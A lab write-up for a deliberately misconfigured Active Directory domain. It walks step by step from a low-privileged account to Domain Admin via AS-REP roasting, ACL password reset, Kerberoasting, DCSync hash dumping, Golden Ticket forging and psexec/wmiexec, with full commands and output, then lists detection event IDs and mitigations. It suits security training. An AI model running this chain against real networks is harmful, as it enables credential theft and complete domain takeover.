



# Lab 04: AS-REP → ForceChangePassword → Kerberoast → DCSync → Golden Ticket

## Overview

A basic corporate Active Directory environment with intentionally introduced misconfigurations.
Designed to practice **AS-REP Roasting**, **ACL abuse (ForceChangePassword)**, **Kerberoasting**, **DCSync**, and **Golden Ticket** — from a low-privileged user to **Domain Admin**.

## Topology

```
┌──────────────┐    ┌──────────────┐    ┌──────────────┐
│   DC01       │    │   VICTIM     │    │   Parrot     │
│ Win Server   │────│   Win 10     │────│   Parrot OS  │
│ 192.168.31.100│   │ 192.168.31.204│   │   DHCP       │
│ DC + AD      │    │   Client     │    │   Attacker   │
└──────────────┘    └──────────────┘    └──────────────┘
```

## Environment

| Component | Version |
|---|---|
| Domain Controller | Windows Server 2022 |
| Client | Windows 10 22H2 |
| Attacker | Parrot OS |
| Domain | `corp.local` |
| Subnet | `192.168.31.0/24` |

## Attack Chain

```
reader  →  Public  →  users.txt
        →  AS-REP o.finance  →  Password1
        →  ForceChangePassword на p.cash  →  Pwned123!
        →  Kerberoast svc_backup  →  Password1
        →  svc_backup в Backup Operators + DCSync
        →  secretsdump  →  krbtgt hash
        →  Golden Ticket  →  Domain Admin
```

## Accounts

| Name | Sam | Password | Group |
|---|---|---|---|
| Public Reader | reader | Password123 | — |
| Olga Finance | o.finance | Password1 | Finance_Users |
| Petr Cash | p.cash | Password1 → Pwned123! | Finance_Users |
| Backup Service | svc_backup | Password1 | Backup Operators |

## Shares

| Share | Access |
|---|---|
| Public | Domain Users (Read) |
| Finance | Finance_Users (Change) |
| HR | HR_Users (Change) |
| Sales | Sales_Users (Change) |

## Vulnerabilities

| # | Vulnerability | Where | MITRE |
|---|---|---|---|
| 1 | AS-REP Roastable | `o.finance` | T1558.004 |
| 2 | ForceChangePassword ACL | `o.finance` → `p.cash` | T1098 |
| 3 | Kerberoastable | `svc_backup` (SPN) | T1558.003 |
| 4 | DCSync rights | `svc_backup` | T1003.006 |
| 5 | Backup Operators abuse | `svc_backup` | T1098 |
| 6 | Golden Ticket | `krbtgt` | T1558.001 |

## Attack Steps

### 1. Share Enumeration (reader)

**Goal:** find accessible shares and interesting files.

```bash
nxc smb 192.168.31.100 -u reader -p Password123 --shares
```

**Output:**

```
SMB  192.168.31.100  445  DC01  [+] corp.local\reader:Password123
SMB  192.168.31.100  445  DC01  Share           Permissions     Remark
SMB  192.168.31.100  445  DC01  -----           -----------     ------
SMB  192.168.31.100  445  DC01  Public          READ
SMB  192.168.31.100  445  DC01  Finance
SMB  192.168.31.100  445  DC01  HR
SMB  192.168.31.100  445  DC01  Sales
```

**`reader` has `READ` on `Public`. List contents:**

```bash
smbclient //192.168.31.100/Public -U 'corp.local/reader%Password123'
```

```
smb: \> ls
  .                                   D        0  ...
  ..                                  D        0  ...
  users.txt                           A      101  ...
```

**Download and read:**

```
smb: \> get users.txt
getting file \users.txt of size 101 as users.txt
smb: \> exit
```

```bash
cat users.txt
```

**Output:**

```
a.admin
i.ivanov
o.finance
p.cash
a.hr
s.sales
m.sales
svc_sql
svc_backup
hr_admin
sys_admin
reader
```

**Result:** user list for AS-REP Roasting.

### 2. AS-REP Roast (o.finance)

**Goal:** obtain AS-REP hash of an account without Kerberos pre-auth.

```bash
GetNPUsers.py corp.local/ -usersfile users.txt -no-pass \
  -dc-ip 192.168.31.100 -format hashcat -outputfile asrep.txt
```

**Output:**

```
$krb5asrep$23$o.finance@CORP.LOCAL:4a598869068a49782f8da744b8622adb$4d2a3f31...
[-] User a.admin doesn't have UF_DONT_REQUIRE_PREAUTH set
...
```

**Crack it:**

```bash
john asrep.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Output:**

```
Password1        ($krb5asrep$23$o.finance@CORP.LOCAL)
```

**Result:** `o.finance : Password1`

### 3. ForceChangePassword (o.finance → p.cash)

**Goal:** abuse `User-Force-Change-Password` ACL to reset `p.cash` password.

**BloodHound shows the ACL:**



**Reset password:**

```bash
bloodyAD --host 192.168.31.100 -d corp.local -u o.finance -p 'Password1' \
  set password p.cash 'Pwned123!'
```

**Output:**

```
[+] Password changed successfully!
```

**Verify:**

```bash
nxc smb 192.168.31.100 -u p.cash -p 'Pwned123!'
```

**Output:**

```
SMB  192.168.31.100  445  DC01  [+] corp.local\p.cash:Pwned123!
```

**Result:** `p.cash : Pwned123!`

### 4. Kerberoast (svc_backup)

**Goal:** obtain TGS hash of a service account with SPN.

```bash
GetUserSPNs.py corp.local/p.cash:'Pwned123!' \
  -dc-ip 192.168.31.100 -request -outputfile kerberoast.txt
```

**Output:**

```
ServicePrincipalName            Name        MemberOf
------------------------------  ----------  --------------------
MSSQLSvc/sql01.corp.local:1433  svc_backup  CN=Backup Operators,...
```

**Crack it:**

```bash
john kerberoast.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Output:**

```
Password1        ($krb5tgs$23$*svc_backup$CORP.LOCAL$...)
```

**Result:** `svc_backup : Password1`

### 5. Verify svc_backup rights

**BloodHound shows the membership:**



**BloodHound shows the DCSync rights:**



**Verify creds:**

```bash
nxc smb 192.168.31.100 -u svc_backup -p Password1
```

**Output:**

```
SMB  192.168.31.100  445  DC01  [+] corp.local\svc_backup:Password1
```

### 6. DCSync (svc_backup)

**Goal:** extract `krbtgt` hash via DRSUAPI.

```bash
secretsdump.py corp.local/svc_backup:Password1@192.168.31.100 -just-dc
```

**Output (key parts):**

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7b71bee7907489b8dea9a06bab7917b2:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3b6c421806dafb492a3a26f87c55dc39:::
corp.local\o.finance:1104:...:64f12cddaa88057e06a81b54e73b949b:::
corp.local\p.cash:1110:...:37d7a42022f4c0bc1efdc5d9c0d5eb33:::
corp.local\svc_backup:1128:...:64f12cddaa88057e06a81b54e73b949b:::
...
```

**Key hash:** `krbtgt` = `3b6c421806dafb492a3a26f87c55dc39`

**Result:** all domain hashes dumped.

### 7. Golden Ticket

**Goal:** create a Golden Ticket for `Administrator`.

```bash
ticketer.py -nthash 3b6c421806dafb492a3a26f87c55dc39 \
  -domain-sid S-1-5-21-446035775-811873913-1701138034 \
  -domain corp.local \
  Administrator
```

**Output:**

```
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for corp.local/Administrator
[*] Saving/Updating ticket in Administrator.ccache
```

**Load the ticket:**

```bash
export KRB5CCNAME=Administrator.ccache
klist
```

**Output:**

```
Ticket cache: FILE:Administrator.ccache
Default principal: Administrator@CORP.LOCAL

Valid starting       Expires              Service principal
09/15/2026 23:50:36  09/12/2036 23:50:36  krbtgt/CORP.LOCAL@CORP.LOCAL
        renew until 09/12/2036 23:50:36
```

**Result:** Golden Ticket valid for 10 years.

### 8. Pass-the-Ticket (SYSTEM on DC01)

**Goal:** use Golden Ticket to access DC01.

```bash
psexec.py corp.local/Administrator@DC01.corp.local -k -no-pass -dc-ip 192.168.31.100
```

**Output:**

```
[*] Requesting shares on DC01.corp.local.....
[*] Found writable share ADMIN$
[*] Creating service JdGu on DC01.corp.local.....
[*] Starting service JdGu.....
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

**Result:** `nt authority\system` on DC01.

### 9. Domain Admin (wmiexec)

**Goal:** authenticate as `CORP\Administrator` (Domain Admin).

**Note:** `psexec` gives SYSTEM (local), `wmiexec` gives `CORP\Administrator` (domain).

```bash
wmiexec.py corp.local/Administrator@DC01.corp.local -k -no-pass -dc-ip 192.168.31.100
```

**Output:**

```
C:\>whoami
corp.local\administrator

C:\>whoami /groups

GROUP INFORMATION
-----------------
...
CORP\Domain Admins
CORP\Enterprise Admins
CORP\Schema Admins
...
```

**Result:** `CORP\Administrator` with `Domain Admins`, `Enterprise Admins`, `Schema Admins` — **full control over the domain**.

## Detection

| Attack | Event ID | Source |
|---|---|---|
| AS-REP Roast | 4768 (PreAuthType=0) | DC Security Log |
| ForceChangePassword | 4724 (Password reset) | DC Security Log |
| Kerberoast | 4769 (TGS request) | DC Security Log |
| DCSync | 4662 (Replicating Directory Changes) | DC Security Log |
| Golden Ticket | 4769 (Anomalous TGT) | DC Security Log |
| Pass-the-Hash/Ticket | 4624 (Logon Type 3, NTLM) | DC Security Log |
| Mimikatz | Sysmon 10 (LSASS access) | Sysmon |

**What to look for:**

- **4768** with `PreAuthType = 0` — AS-REP Roast.
- **4724** — password reset by non-admin user.
- **4769** with unusual SPN — Kerberoast.
- **4662** with `DS-Replication-Get-Changes` from non-DC — DCSync.
- **4769** with 10-year lifetime — Golden Ticket.

## Mitigation

| Attack | Mitigation |
|---|---|
| AS-REP Roast | Enforce Kerberos Pre-Auth for all accounts |
| ForceChangePassword | Audit ACLs; least privilege; remove unnecessary `User-Force-Change-Password` |
| Kerberoast | Strong passwords for service accounts; use gMSA |
| DCSync | Audit `DS-Replication-Get-Changes`; don't grant to service accounts |
| Golden Ticket | Rotate `krbtgt` twice; monitor anomalous TGT lifetime |
| Pass-the-Ticket | Disable NTLM; use Kerberos; Protected Users |

## References

- [MITRE ATT&CK](https://attack.mitre.org/)
- [HackTricks — AD Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [The Hacker Recipes](https://www.thehacker.recipes/)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- [Impacket](https://github.com/fortra/impacket)
- [NetExec](https://github.com/Pennyw0rth/NetExec)
- [BloodyAD](https://github.com/CravateRouge/bloodyAD)

## Status

Complete — chain from `reader` to **Domain Admin** via AS-REP, ForceChangePassword, Kerberoast, DCSync, and Golden Ticket.
